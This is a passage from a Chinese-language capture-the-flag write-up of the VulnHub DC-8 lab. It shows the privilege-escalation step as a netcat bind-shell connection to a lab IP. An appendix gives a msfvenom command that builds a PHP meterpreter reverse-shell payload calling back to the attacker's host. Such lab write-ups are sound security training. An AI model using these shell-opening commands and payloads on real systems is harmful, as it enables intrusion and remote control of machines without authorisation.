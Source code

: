 ```bash
```

耐心等待

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/14.png)

这个时候再用 kali 新建一个 bind shell 连接
```
nc -nv 192.168.141.141 31337
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/15.png)

提权成功,感谢靶机作者 @DCUA7

---

# 补充

php 反弹 shell 那一步除了网上找到的 php 源码外,还可以直接回弹个 meterpreter shell,一条命令生成
```
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
```
